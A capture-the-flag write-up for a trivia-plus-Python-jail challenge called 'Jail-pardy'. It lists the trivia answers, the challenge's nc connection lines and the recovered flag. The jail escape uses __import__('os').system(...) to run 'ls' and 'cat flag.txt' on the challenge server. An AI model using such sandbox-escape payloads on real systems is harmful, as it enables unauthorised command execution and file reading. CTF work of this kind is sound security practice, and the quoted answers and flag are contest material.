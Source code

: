 # Jeopardy

>This is Jail-pardy!
>
>nc 34.72.64.224 8082
>
>nc 35.231.20.75 8082
>
>There has been confusion over Miscellaneous 200. The answer is "ios", it is misleading. My bad. Good luck and enjoy! :)
>
>Created by Thomas (Seltzerz #6678)

>## Hint
>For the 10000 point challenge, it's in the first 30 minutes :)

## Answers

| Value | UMass | Cybersecurity Now | Cybersecurity Yesterday | Cybersecurity Tomorrow | Miscellaneous |
| :---: | :---: | :---: | :---: | :---: | :---: |
| 100 | sam | 39  | Captaine Crunch | quantum | tryhackme |
| 200 | dining | laser | WarGames | 2038 | ios |
| 300 | franklin | radiohead | Iran | human | 101010 |
| 400 | orchard hill | microsoft | Reaper | arm | 4   |
| 500 | jolly roger | dog | orange book | deepfake | gSH1GgcJHimHy0XaMn |


## Getting out of Jail

```bash
Input whatever you wish to try to break out of this game with in the following input.
Here are the characters you are allowed to use: ' ', '%', "'", '(', ')', '+', ',', '.', '1', ':', '<', '[', ']', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '}', '~'
jailbreak
>>> __import__('os').system('ls')
flag.txt
jeopardy.py
ynetd

Invalid argument passed. Either type "jailbreak" or restart the game.
jailbreak
Input whatever you wish to try to break out of this game with in the following input.
Here are the characters you are allowed to use: ' ', '%', "'", '(', ')', '+', ',', '.', '1', ':', '<', '[', ']', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '}', '~'
>>> __import__('os').system('cat flag.txt')
UMASS{thank-you-alex}
```
